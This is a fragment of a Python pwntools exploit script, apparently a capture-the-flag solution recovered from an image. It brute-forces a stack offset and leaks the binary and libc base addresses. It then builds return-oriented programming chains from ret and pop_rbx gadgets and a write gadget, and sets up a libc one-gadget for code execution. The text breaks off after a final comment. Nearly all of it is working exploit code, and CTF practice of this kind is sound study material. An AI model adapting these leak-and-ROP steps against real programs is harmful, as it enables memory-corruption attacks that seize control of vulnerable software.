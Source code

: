 ```python

    # wait for buffers to flush
    while p.recv(timeout=1):
        pass

    while True:
        offset += 16
        print(hex(offset))
        p.send(b"\x1f" * 16)
        if p.recvuntil(b'1', timeout=0.5 if args.REMOTE else 0.01) != b'':
            break

    bin_base = u64(b'1' + p.recv(7)) - 0x1131
    print("bin_base:", hex(bin_base))

    # Go to return address
    p.send(b"b8")
    p.send(b"\x00" * offset)

    # Leave the return address as is
    real_return = bin_base + 0x1196
    p.send(p64(real_return))
    
    # Afterwards, write some ret gadgets
    ret = bin_base + 0x11f8
    for i in range(20):
        p.send(p64(ret))

    libcleak = heap_base + 0x1fdf98
    pop_rbx = bin_base + 0x12c2
    p.send(p64(pop_rbx))
    p.send(p64(libcleak))
    p.send(p64(libcleak))
    writegadget = bin_base + 0x111f
    p.send(p64(writegadget))
    p.send(b'\n')

    # Go back to return address
    p.send(p16((ret >> 40)))
    p.send(b'\x00' * offset)
    p.send(b'\xf8')

    p.recvuntil(b'p')
    libc_base = u64(b'p' + p.recv(7)) - 0x203b70

    print("libc:", hex(libc_base))

    # Go to return address
    p.send(b"58")
    p.send(b"\x00" * (offset + 0xc0))

    # Leave the return address as is
    real_return = bin_base + 0x1196
    p.send(p64(real_return))
    
    # Afterwards, set up a onegadget
    p.send(p64(pop_rbx))
    p.send(p64(0))
    p.send(p64(libc_base + 0x206000))   # rbp
    p.send(p64(libc_base + 0xef4ce))
    p.send(b'\n')

    # Go back to return address
```